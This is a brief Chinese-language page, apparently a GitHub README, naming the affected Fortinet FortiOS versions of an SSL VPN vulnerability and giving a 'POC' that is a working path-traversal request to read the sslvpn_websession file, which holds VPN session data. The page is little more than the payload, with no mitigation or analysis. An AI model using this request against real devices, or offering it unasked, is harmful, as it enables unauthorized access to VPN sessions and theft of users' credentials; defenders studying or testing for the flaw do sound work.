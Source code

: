 漏洞影響
--------

Fortinet FortiOS 5.6.3版本至5.6.7版本、Fortinet FortiOS 6.0.0版本至6.0.4版本中的SSL VPN 受此漏洞影響。

POC
---

    /remote/fgt_lang?lang=/../../../..//////////dev/cmdb/sslvpn_websession